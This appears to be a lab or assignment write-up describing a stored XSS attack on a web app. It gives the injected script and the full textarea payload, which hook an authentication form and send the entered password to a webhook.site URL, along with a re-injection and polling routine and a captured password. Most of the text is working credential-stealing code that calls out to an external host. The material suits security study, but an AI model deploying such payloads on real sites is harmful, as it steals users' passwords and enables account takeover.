 # Attack 3

This attack uses an XSS vulnerability, and changes the functionality of the submit button to send a request to our webhook.

The script first executes attack 2 in order to get the session key, then it appends our javascript code to Jonas's description if it doesn't exist.

From then on, every 30 seconds the script checks if the webhook has been received, if not, then it checks if the XSS vulnerability is still in the description. Updates if it's not there.

We used webhook.site as our cross website.

The script we wrote looks like this:

```javascript
document.addEventListener("DOMContentLoaded", () => {
    document.getElementById("authForm").addEventListener("submit", () => {
        const key = document.getElementById("authPassword").value;
        fetch("//webhook.site/c60e8309-2035-4484-8777-121da40750d6?key=" + encodeURIComponent(key));
    })
});
```

And the complete inner HTML `<textarea>` looks like this:

```html
The most friendly employee in the company
<script>
//eiunrg9ea8gnq780b4387

document.addEventListener("DOMContentLoaded", () => {
    document.getElementById("authForm").addEventListener("submit", () => {
        const key = document.getElementById("authPassword").value;
        fetch("//webhook.site/c60e8309-2035-4484-8777-121da40750d6?key=" + encodeURIComponent(key));
    })
});

</script>
```

The id `eiunrg9ea8gnq780b4387` is used to check if the script is still in the description or not.

When a webhook is received, it should be visible in webhook.site's JSON path: https://webhook.site/token/c60e8309-2035-4484-8777-121da40750d6/requests?page=1&password=&query=&sorting=newest

Located in `data["data"][0]["query"]["key"]`.

The python script should then print the password in the terminal: `jeg!Har%Mest&LystTil&At%Være-En-Hacker`
